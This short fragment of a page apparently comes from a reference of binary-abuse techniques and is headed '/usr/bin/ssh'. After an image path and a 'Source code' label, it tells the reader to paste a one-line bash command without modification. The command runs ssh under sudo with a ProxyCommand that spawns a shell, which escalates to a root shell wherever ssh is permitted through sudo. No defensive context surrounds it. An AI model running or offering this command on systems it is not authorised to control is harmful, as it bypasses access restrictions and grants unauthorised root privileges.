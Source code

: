 #### /usr/bin/ssh

Paste this in without modification
``` bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```


